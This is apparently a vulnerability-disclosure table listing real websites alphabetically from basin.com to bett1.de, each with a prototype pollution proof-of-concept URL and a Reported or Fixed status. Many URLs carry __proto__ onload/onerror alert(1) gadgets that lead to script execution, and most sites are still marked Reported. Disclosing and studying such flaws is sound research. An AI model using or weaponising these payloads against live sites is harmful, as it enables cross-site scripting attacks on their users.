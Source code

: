 |basin.com|54294|URL search|, Cookie-M|Reported|`https://basin.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bastyr.edu|66222|URL search|, URL-M|Reported|`https://bastyr.edu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bata.com.pk|338670|URL search|, URL-M|Fixed|`https://www.bata.com.pk/collections/school/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|batchbook.com|660344|URL search|-|Reported|`https://pipelinecrm.com/blog/batchbooks-clear-choice-is-pipeline-crm/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|batimes.com|84478|URL search|-|Fixed|`https://www.batimes.com/login.html/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|battlebeast.fi|734166|URL search|-|Reported|`https://battlebeast.fi/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bauhof.ee|668854|URL search|-|Reported|`https://bauhof.ee/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bauroc.ee|660761|URL search|-|Reported|`https://bauroc.ee/infomaterjalid/ehitusfuusika/soojuslikud-omadused/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|baxi.es|649223|URL search|-|Fixed|`https://www.baxi.es/sobre-baxi/quienes-somos/baxi_ferrol/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bbemaildelivery.com|90287|URL search|, Cookie-M, URL-M|Reported|`https://login.bombbomb.com/signup?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&ab=bombbomb&redirect=https%3A%2F%2Fbbemaildelivery.com%2Fapp%2F%3F__proto__%5B123%5D%3Dtestv%26__proto__.123%3Dtestv%26constructor%5Bprototype%5D%5B123%5D%3Dtestv`
|bbongbra.co.kr|297698|URL|-|Reported|`https://bbongbra.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bc211.ca|458319|URL search|, Cookie-M, URL-M|Fixed|`http://www.bc211.ca/contact/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bcs-express.ru|62743|URL|-|Reported|`https://bcs-express.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bdcnetwork.com|39410|URL|-|Reported|`https://bdcnetwork.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bdo.com|17753|URL|, Cookie-M, URL-M|Reported|`https://www.bdo.com/services/business-financial-advisory/bdo-wealth-advisors/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bdtickets.com|478171|URL search|-|Fixed|`https://bdtickets.com/faq/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|beautylaunchpad.com|547469|URL search|, URL-M|Reported|`https://beautylaunchpad.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|beckersasc.com|73686|URL|, URL-M|Reported|`https://beckersasc.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|beckershospitalreview.com|6492|URL|, URL-M|Reported|`https://beckershospitalreview.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|beckersspine.com|106462|URL|, URL-M|Reported|`https://beckersspine.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bedzino.pl|234734|URL search|-|Fixed|`https://bedzino.pl/fundusz-solecki-2021/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|beigic.com|993991|URL search|-|Reported|`https://beigic.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|beingexpat.com|41266|URL search|-|Reported|`https://beingexpat.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|belasmensagens.com.br|339182|URL search|, URL-M|Reported|`https://belasmensagens.com.br/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|belco.org|214811|URL search|-|Reported|`https://belco.org/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__%5B123%5D=testv&__proto___123=testv&constructor%5Bprototype%5D%5B123%5D=testv`
|believe-nature.com|992293|URL search|-|Reported|`https://believe-nature.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|belvilla.org|944721|URL search|-|Reported|`https://www.belvilla.org/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|benito.co.kr|720862|URL search|, URL-M|Reported|`https://benito.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bentoncosmetic.com|407647|URL search|, URL-M|Reported|`https://bentoncosmetic.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|berlinjournal.biz|735699|URL search|-|Reported|`https://berlinjournal.biz/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bern.com|136112|URL search|, Cookie-M|Reported|`https://www.bern.com/en/things-to-do/nightlife/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|bestaccessdoors.com|492810|URL search|, URL-M|Reported|`https://bestaccessdoors.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bestseller-super.ru|992137|URL search|, Cookie-M|Reported|`https://bestseller-super.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bestsoft.club|895548|URL search|, Cookie-M|Reported|`https://bestsoft.club/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|besured.nl|992621|URL search|-|Reported|`https://besured.nl/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|beton-kommunar.ru|934905|URL|-|Reported|`https://beton-kommunar.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bett1.de|370210|URL search|-|Reported|`https://bett1.de/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`